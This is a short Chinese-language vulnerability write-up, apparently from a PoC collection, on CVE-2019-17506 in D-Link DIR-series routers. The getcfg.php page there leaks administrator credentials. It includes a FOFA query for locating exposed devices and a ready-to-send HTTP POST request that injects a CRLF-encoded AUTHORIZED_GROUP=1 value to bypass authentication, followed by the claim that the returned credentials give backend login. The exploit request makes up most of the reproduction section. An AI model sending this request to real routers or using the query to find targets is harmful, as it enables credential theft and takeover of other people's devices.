 ```yaml
---
title: D-Link Dir-645 getcfg.php 账号密码泄露漏洞 CVE-2019-17506
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - 网络设备漏洞
 - D-Link
---
```


# D-Link Dir-645 getcfg.php 账号密码泄露漏洞 CVE-2019-17506

## 漏洞描述

D-Link DIR-868L B1-2.03和DIR-817LW A1-1.04路由器上有一些不需要身份验证的Web界面。攻击者可以通过SERVICES的DEVICE.ACCOUNT值以及AUTHORIZED_GROUP = 1％0a来获取getcfg.php的路由器的用户名和密码（以及其他信息）。这可用于远程控制路由器

## 漏洞影响

> [!NOTE]
>
> D-Link Dir 系列多个版本

## FOFA

> [!NOTE]
>
> app="D_Link-DIR-868L"

## 漏洞复现

登录页面如下

![](/img/20210924013706319890.png)

发送如下请求包

```
POST /getcfg.php HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Content-Length: 61

SERVICES=DEVICE.ACCOUNT&attack=ture%0D%0AAUTHORIZED_GROUP%3D1
```

![](/img/20210924013706503963.png)

获取到路由器账号密码即可登录后台

## Goby & POC

![](/img/20210924013706846105.png)

